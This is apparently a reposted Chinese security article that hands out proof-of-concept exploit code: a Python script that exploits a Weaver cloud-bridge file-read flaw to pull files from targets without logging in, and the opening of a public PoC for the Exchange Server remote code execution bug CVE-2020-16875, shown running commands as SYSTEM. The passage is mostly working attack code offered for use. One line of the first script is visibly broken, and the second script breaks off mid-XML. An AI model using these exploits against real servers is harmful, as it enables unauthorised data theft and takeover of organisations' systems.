     这里直接给 POC，若需完整 POC 请关注微信公众号，并**回复 “泛微云桥”**  

```
def poc(u):
    print("\[\*\] Checking %s"%(u))
    uri = "/wxjsapi/saveYZJFile?file
    url = u + uri
    try:
        res = requests.get(url,verify=False)
    except:
        print("\[-\] %s not vulnerabile!"%(u))
        return
    try:
        data = json.loads(res.content)
        print("\[\*\] %s is vulnerabile!" %(u))
        res = requests.get(u+"/file/fileNoLogin/%s"%(data\['id'\]))
        print(res.text)
    except:
        print("\[-\] %s not vulnerabile!"%(u))

```

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x08 Exchange Server 远程代码执行漏洞

    CVE-2020-16875: Exchange Server 远程代码执行漏洞（202009 月度漏洞）

    这里有大佬写好的 poc，但是因为需要梯子，这里就提供给大家  

```
#!/usr/bin/env python3
"""
Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875
# Example:
researcher@incite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass> <cmd>
(+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
(+) logged in as harrym@exchangedemo.com
(+) found the \_\_viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
(+) executed mspaint as SYSTEM!
"""
import re
import sys
import random
import string
import urllib3
import requests
urllib3.disable\_warnings(urllib3.exceptions.InsecureRequestWarning)
def random\_string(str\_len=8):
    letters = string.ascii\_lowercase
    return ''.join(random.choice(letters) for i in range(str\_len))
def get\_xml(c):
    return """<?xml version="1.0" encoding="UTF-8"?>
<dlpPolicyTemplates>
  <dlpPolicyTemplate mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>si</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
```